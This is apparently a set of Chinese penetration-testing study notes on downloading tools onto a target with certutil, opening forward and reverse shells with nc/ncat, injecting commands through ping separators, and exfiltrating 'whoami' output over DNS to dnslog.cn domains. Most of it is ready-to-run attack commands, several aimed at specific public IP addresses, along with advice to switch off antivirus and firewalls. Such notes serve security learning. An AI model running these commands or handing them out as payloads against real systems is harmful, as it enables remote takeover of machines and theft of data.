 ### 实用案例1：文件上传下载-解决无图形化&解决数据传输
_Tips:_
_文件需传到网站目录_
_记得结束其他apache进程，防止占用端口_
_提前用浏览器直接访问测试文件是否在目录中_


命令生成：https://forum.ywhack.com/bountytips.php?download
Linux：wget curl python ruby perl java等
Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

NetCat是一个非常简单的Unix工具，可以读、写TCP或UDP网络连接(network connection)。它被设计成一个可靠的后端(back-end)工具，能被其它的程序程序或脚本直接地或容易地驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能。

netcat可以使用tcp和udp协议.之所以叫做netcat,因为它是网络上的cat,想象一下cat的功能,读出一个文件的内容,然后输出到屏幕上(默认的stdout是屏幕,当然可以重定向到其他地方).netcat也是如此,它读取一端的输入,然后传送到网络的另一端
（[https://blog.csdn.net/cavalier_anyue/article/details/45477599](https://blog.csdn.net/cavalier_anyue/article/details/45477599)）

测试时需要关闭防病毒
certutil.exe -urlcache -split -f http://47.242.189.147:80/nc.exe ncs.exe

### 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯
Nc在Linux上自带，Windows上不自带。
命令生成：https://forum.ywhack.com/shell.php
正（主动）和反（被动）是相对的，看以哪一台服务器作参照
包管理工具问题：[https://blog.csdn.net/lvoelife/article/details/129146477](https://blog.csdn.net/lvoelife/article/details/129146477)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36014252/1690000610298-8a5aeefe-7345-4183-8d7f-981a26fcf284.png#averageHue=%23ebeaea&clientId=u6d8d170e-0eef-4&from=ui&id=ukbyW&originHeight=618&originWidth=1037&originalType=binary&ratio=2&rotation=0&showTitle=false&size=61862&status=done&style=none&taskId=u801565bf-6853-4150-9da0-bfc1a68afac&title=)
#### 1、正向连接：本地监听等待对方连接
Linux控制Windows
//绑定CMD到本地5566端口
nc -e cmd -lvvp 5566
//主动连接目标5566
ncat 47.242.189.147 5566

_yum install nmap-ncat -y //centos _
_sudo apt-get -y install netcat-traditional //ubuntu_
_若出现乱码：_输入 chcp 65001（[https://blog.csdn.net/hnlgzb/article/details/81911824](https://blog.csdn.net/hnlgzb/article/details/81911824)）
exit退出

Windows控制Linux
//绑定SH到本地5566端口（执行命令）
ncat -e /bin/sh -lvp 5566
//主动连接目标5566
nc 47.94.236.117 5566
（需要Linux和Windows都要关闭防火墙）

#### 2、反向连接：主动给出去，对方监听
//绑定SH到目标5566端口
ncat -e /bin/sh 47.122.23.131 5566（多了一个对方的IP地址）
//等待5566连接
nc -lvvp 5566

//绑定CMD到目标5566端口
nc -e cmd 47.94.236.117 5566
//等待5566连接
ncat -lvvp 5566

### 实际案例3：防火墙-正向连接&反向连接&内网服务器
_可能有的问题：_
_1、Linux服务器上搭建Tomcat，注意端口是8080_
_2、注意tomcat的文件目录_
_3、利用宝塔搭建网站，在本机操作Windows服务器_
_4、宝塔会拦截函数、使用小皮时出现乱码，重新安装后成功_

**管道符**：| (管道符号) ||（逻辑或） &&（逻辑与）  &(后台任务符号)
Windows->| & || &&
**Linux->; | || & && ``(特有``和;)**
例子：
 ping `whoami`（ping: root: Name or service not known）
ping `pwd`（ping: /root: Name or service not known）（当前目录）
ping -c 1 127.0.0.1 ; whoami（ping报错，whoami执行）
ping -c 1 127.0.0.1 | whoami
ping -c 1 127.0.0.1 || whoami
ping -c 1 127.0.0.1 & whoami
ping -c 1 127.0.0.1 && whoami
ping -c 1 127.0.0.1 `whoami`
_总而言之，多执行一条命令_

演示：
1、判断windows
2、windows没有自带的nc
3、想办法上传nc 反弹权限（提前放好nc在自己的服务器）（放到对方的c盘）（注意关闭防火墙）
certutil.exe -urlcache -split -f http://47.242.189.147:80/nc.exe c:\\nc.exe
4、反弹
127.0.0.1|c://nc.exe -e cmd 8.210.159.218 5566
ncat -lvvp 5566

![imae.png](https://cdn.nlark.com/yuque/0/2023/png/36014252/1690000624267-40cc9daa-f52e-469a-9c53-719cff2c2f2f.png#averageHue=%23e9e6e5&clientId=u6d8d170e-0eef-4&from=ui&id=wMDJJ&originHeight=605&originWidth=1009&originalType=binary&ratio=2&rotation=0&showTitle=false&size=77588&status=done&style=none&taskId=u786d4895-ad60-459c-8ab9-e28dbe52c36&title=)
开启入站策略，采用反向连接
Linux：ncat -lvvp 5566
Windows：127.0.0.1 | c:\\nc.exe -e cmd 8.210.159.218 5566
开启出站策略，采用正向连接

防火墙开启后入站规则更加严苛，只能使用默认通讯端口，除非添加规则
Linux：ncat -e cmd 47.242.189.147 5566
Windows：127.0.0.1 | nc -e cmd -lvvp 5566
正反向反弹案例-内网服务器
只能内网主动交出数据，反向连接
_检查网络状态（netstat -an)_
_net stop Mysql_
_//这里的服务名称根据自己系统服务里的名称_
_sc delete Mysql_
_//将服务从windows的服务注册表中删除_

### 实际案例4：防火墙组合数据不回显-ICMP带外查询Dnslog
1、dnslog.cn
2 、ping `whoami`.gcuaukgu.com
3、此方法只能在Linux服务器上使用，因为Windows服务器不支持此拼接方法
4、故使用powershell命令，将数据能够带
 $x=whoami;$y='.wbw4rk.dnslog.cn';
 echo $x
 echo $y
 echo $x+$y
ping $z（此时找不到，地址里有分号）
 $xx=$x.replace('\','xxxx');
 $z=$xx+$y;
echo$z;
返回dnslog刷新页面

总结：出站入站都开启策略（数据不回显）
127.0.0.1 | powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.5m5lgl.dnslog.cn';$z=$x+$y;ping $z
为什么这样写：cmd不执行whoami（被ping命令干扰），需要将其结果外带
用powershell变量赋值，把执行结果给变量
结果带有“/”导致ping无法执行


**漏洞有，但是数据不回显：**
**1、反弹shell**
**2、带外查询**

ping命令可绕过防火墙，因为其走的都是icmp协议，防火墙过滤的是tcp和udp
` ` ; 


ping 127.0.0.1 | 

powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.vpod5d.dnslog.cn';$z=$x+$y;ping $z

127.0.0.1 | powershell $x=ver;$x=$x.Replace('\','xxx');$y='.vpod5d.dnslog.cn';$z=$x+$y;ping $z
